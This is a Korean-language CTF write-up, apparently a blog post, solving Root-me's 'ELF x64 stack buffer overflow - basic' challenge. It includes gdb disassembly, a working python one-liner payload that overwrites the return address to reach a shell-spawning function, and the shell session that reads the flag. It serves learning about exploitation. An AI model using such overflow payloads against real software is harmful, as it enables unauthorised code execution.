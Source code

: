 ```yaml
---
layout: post
title: [Root-me] ELF x64 stack buffer over flow - basic
date: 2018-07-22 22:41:20 +0900
description: # Add post description (optional)
img: post-2.jpg # Add image post (optional)
tags: [CTF, Root-me]
author: purelledhand # Add name author (optional)
---
```


# 서론 : write-up

함수들을 조회해보면 아래와 같당

    gdb$ info func
    All defined functions:

    Non-debugging symbols:
    0x0000000000400528  _init
    0x0000000000400560  strlen@plt
    0x0000000000400570  system@plt
    0x0000000000400580  printf@plt
    0x0000000000400590  geteuid@plt
    0x00000000004005a0  __libc_start_main@plt
    0x00000000004005b0  __gmon_start__@plt
    0x00000000004005c0  setreuid@plt
    0x00000000004005d0  __isoc99_scanf@plt
    0x00000000004005e0  _start
    0x0000000000400610  deregister_tm_clones
    0x0000000000400640  register_tm_clones
    0x0000000000400680  __do_global_dtors_aux
    0x00000000004006a0  frame_dummy
    0x00000000004006cd  callMeMaybe
    0x00000000004006fc  main
    0x0000000000400760  __libc_csu_init
    0x00000000004007d0  __libc_csu_fini
    0x00000000004007d4  _fini


main에서는 호출되지 않는 callMeMaybe함수를 rip 핸들링을 통해 호출시키는 문제였다.

    gdb$ disas callMeMaybe
    Dump of assembler code for function callMeMaybe:
    0x00000000004006cd <+0>:	push   rbp
    0x00000000004006ce <+1>:	mov    rbp,rsp
    0x00000000004006d1 <+4>:	push   rbx
    0x00000000004006d2 <+5>:	sub    rsp,0x8
    0x00000000004006d6 <+9>:	call   0x400590 <geteuid@plt>
    0x00000000004006db <+14>:	mov    ebx,eax
    0x00000000004006dd <+16>:	call   0x400590 <geteuid@plt>
    0x00000000004006e2 <+21>:	mov    esi,ebx
    0x00000000004006e4 <+23>:	mov    edi,eax
    0x00000000004006e6 <+25>:	call   0x4005c0 <setreuid@plt>
    0x00000000004006eb <+30>:	mov    edi,0x4007e4
    0x00000000004006f0 <+35>:	call   0x400570 <system@plt>
    0x00000000004006f5 <+40>:	add    rsp,0x8
    0x00000000004006f9 <+44>:	pop    rbx
    0x00000000004006fa <+45>:	pop    rbp
    0x00000000004006fb <+46>:	ret    


해당 callMeMaybe함수를 보면 <+30> 라인부터 0x4007e4에 있는 문자열을 system함수의 인자로 넣어 실행시키는 것을 알 수 있다.

    gdb$ x/s 0x4007e4
    0x4007e4:	"/bin/bash"

그 주소에 있는 문자열은 위와 같이 "/bin/bash"였으며 따라서 callMeMaybe함수의 주소를 eip 값으로 넣으면 쉘을 딸 수 있음을 알 수 있었다.

    gdb$ disas main
    Dump of assembler code for function main:
    0x00000000004006fc <+0>:	push   rbp
    0x00000000004006fd <+1>:	mov    rbp,rsp
    0x0000000000400700 <+4>:	sub    rsp,0x120
    0x0000000000400707 <+11>:	mov    DWORD PTR [rbp-0x114],edi
    0x000000000040070d <+17>:	mov    QWORD PTR [rbp-0x120],rsi
    0x0000000000400714 <+24>:	lea    rax,[rbp-0x110]
    0x000000000040071b <+31>:	mov    rsi,rax
    0x000000000040071e <+34>:	mov    edi,0x4007ee
    0x0000000000400723 <+39>:	mov    eax,0x0
    0x0000000000400728 <+44>:	call   0x4005d0 <__isoc99_scanf@plt>
    0x000000000040072d <+49>:	lea    rax,[rbp-0x110]
    0x0000000000400734 <+56>:	mov    rdi,rax
    0x0000000000400737 <+59>:	call   0x400560 <strlen@plt>
    0x000000000040073c <+64>:	mov    DWORD PTR [rbp-0x4],eax
    0x000000000040073f <+67>:	lea    rax,[rbp-0x110]
    0x0000000000400746 <+74>:	mov    rsi,rax
    0x0000000000400749 <+77>:	mov    edi,0x4007f1
    0x000000000040074e <+82>:	mov    eax,0x0
    0x0000000000400753 <+87>:	call   0x400580 <printf@plt>
    0x0000000000400758 <+92>:	mov    eax,0x0
    0x000000000040075d <+97>:	leave  
    0x000000000040075e <+98>:	ret    
    End of assembler dump.


main 함수의 어셈블리를 보면 0x100의 인자를 scanf로 받은 후 Hello [인자] 형태를 printf로 출력해주는 프로그램임을 알 수 있다. (아래 참조)

    app-systeme-ch35@challenge03:~$ ./ch35
    AAAA
    Hello AAAA

scanf함수에 넣은 값은 rbp-0x110부터 들어간다.

    gdb$ x/s $rbp-0x110
    0x38b07867980:	'A' <repeats 47 times>

이제 ret의 주소가 rbp+8이므로 페이로드를 'A'*0x118+[callMeMaybe() 주소값]으로 작성해서 ret값을 callMeMaybe함수의 주소로 덮으면 된다!

    app-systeme-ch35@challenge03:~$ (python -c 'print "A"*0x118+"\xcd\x06\x40\x00\x00\x00\x00\x00"'; cat) | ./ch35
    Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA 
    ls -al
    total 28
    drwxr-x---  2 app-systeme-ch35-cracked app-systeme-ch35         4096 mai   25  2015 .
    drwxr-xr-x 35 root                     root                     4096 mars  17 09:33 ..
    -rwsr-x---  1 app-systeme-ch35-cracked app-systeme-ch35         8633 mai   24  2015 ch35
    -rw-r-----  1 app-systeme-ch35-cracked app-systeme-ch35          447 mai   24  2015 ch35.c
    -r--------  1 app-systeme-ch35-cracked app-systeme-ch35-cracked   20 mai   24  2015 .passwd
    id
    uid=1235(app-systeme-ch35-cracked) gid=1135(app-systeme-ch35) groups=1235(app-systeme-ch35-cracked),100(users),1135(app-systeme-ch35)
    cat .passwd
    B4sicBufferOverflow
    
풀고 나서 다른 분이 쓰신 라업을 봤는데 페이로드에 주소값을 그냥 빅엔디안으로 쓰고 [:: - 1]을 이용해서 리틀엔디안으로 처리하시더랑
되게 좋은 꿀팁이었당 앞으로 나도 애용해야겠다.


# 본론 : 내가 배운 것


이전에 풀었던 문제들과 비슷한 패턴이었음에도 불구하고 오랫동안 삽질을 했다.

아직 체계가 흐릿하게 잡혔지만 **64비트 바이너리에서 rbp+8이 ret임을 확인**해갔던 과정을 포스팅하면서 다시 정리하고자 한다.

    gdb$ i r
    rax            0x1	0x1
    rbx            0x0	0x0
    rcx            0x0	0x0
    rdx            0x1	0x1
    rsi            0x30d8368e9f0	0x30d8368e9f0
    rdi            0x30d8368d640	0x30d8368d640
    rbp            0x38b27699850	0x38b27699850
    rsp            0x38b27699730	0x38b27699730
    rip            0x40072d	0x40072d <main+49>

    gdb$ x/10gx $rbp+8
    0x38b27699858:	0x0000030d832eff45	0x0000038b27699938

보면 rip의 값은 0x40072d로 다음에 실행될 명령어의 주소를 의미한다.
하지만 rbp+8의 값은 0x40072d가 아닌 값이라 낯설 수 있다.

rbp+8 값의 인스트럭트를 따라가보면 도중에 아래와 같은 내용이 나온다.

    0x0000030d832eff43 <+243>:	call   rax
    0x0000030d832eff45 <+245>:	mov    edi,eax
    0x0000030d832eff47 <+247>:	call   0x30d8330a1e0 <__GI_exit>


<+243> call rax에서 rax의 값을 확인하기 위해 0x0000030d832eff43에 브레이크 포인트(이하 브포)를 걸었다.
이 때 __libc_start_main+0xf3 처럼 주소가 아닌 __libc_start_main으로부터의 오프셋으로 설정해야 브포가 걸렸다. 오프셋도 헥스값으로 주지않으면 브포가 걸리지 않는다.

    gdb$ b *__libc_start_main+0xf3
    Breakpoint 2 at 0x30d832eff43: file libc-start.c, line 287.

    gdb$ i r
    rax            0x4006fc	0x4006fc

이렇게 rax에 main함수의 주소인 0x4006fc가 들어있는 것을 확인할 수 있었다.
정리해보면 함수가 끝난 후 main을 호출하고 exit를 호출하는 로직이다.

<img src="{{site.baseurl}}/assets/img/rootme/system4/stack.jpg" alt="stack" style="width: 400px;"/>

그래서 main을 호출 한 후 return addr이 mov edi, eax가 된 상황이다. 그 이후에는 exit를 호출한 후 main으로 복귀할 것이다.

# 결론

> 1. 64비트 바이너리 환경에서 rbp와 rip, ret의 관계 체계를 정리해볼 수 있었다.
> 2. 페이로드 작성 시 힘들게 리틀엔디안으로 바꾸지 말고 [:: - 1]을 이용하자